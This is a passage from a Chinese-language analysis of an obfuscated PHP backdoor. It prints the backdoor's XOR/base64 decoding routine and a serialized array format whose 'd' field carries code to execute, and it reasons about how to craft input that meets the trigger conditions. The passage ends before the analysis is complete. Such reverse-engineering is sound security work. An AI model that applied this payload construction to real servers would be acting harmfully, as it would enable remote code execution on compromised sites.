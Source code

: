 ```
array(
'ak'=>'aec7e489-2fbc-4b15-871f-1d686eeb80dc',
'a'=>'e',
'd'=>'执行代码' //如phpinfo();
);.
```

```
$vv = @unserialize(x184f5cc(base64\_decode($vv), $kk));
```

```
x184f5cc(base64\_decode($vv), $kk) 返回值需要等于 a:3:{s:2:"ak";s:36:"aec7e489-2fbc-4b15-871f-1d686eeb80dc";s:1:"a";s:1:"e";s:1:"d";s:10:"phpinfo();";}
```

> 敏感函数 unserialize // 可能需要反序列化操作

>   
> 
>   其中下标 \[a904\] 的值由于存在特殊字符，没有显示完全，另外如需利用到 \[a904\] 的值也要考虑这个问题，不能直接输出使用。

**二. 触发条件分析**  
当时按顺序读了下功能，事后复盘发现，可能比较高效的做法是倒序着读，顺着最下面的执行逻辑往上去构造条件。  
所以既然重点在  

```
function  x184f5cc($vv, $kk){
                global $w8fd00d8;  
                global $c77700426;
                return e664fd(e664fd($vv, $c77700426), $kk);
        }
```

那设法 $vv\['d'\] 可控就好

```
a:3:{s:2:"ak";s:36:"aec7e489-2fbc-4b15-871f-1d686eeb80dc";s:1:"a";s:1:"e";s:1:"d";s:10:"phpinfo();";}
```

```
function  e664fd($vv, $kk){
        global $w8fd00d8;
        $n513761 = "";
        for ($i=0;$i<strlen($vv);){
                for ($p=0;$p<strlen($kk) && $i<strlen($vv);$p++, $i++){
                        $n513761 .= chr(ord($vv\[$i\]) ^ ord($kk\[$p\]));
                }
        }
        return $n513761;
        }
```

可以先不考虑 x184f5cc(base64\_decode($vv), $kk) 是怎么来的，

我们先直接修改 $vv 的值，看怎样才能满足执行条件。  
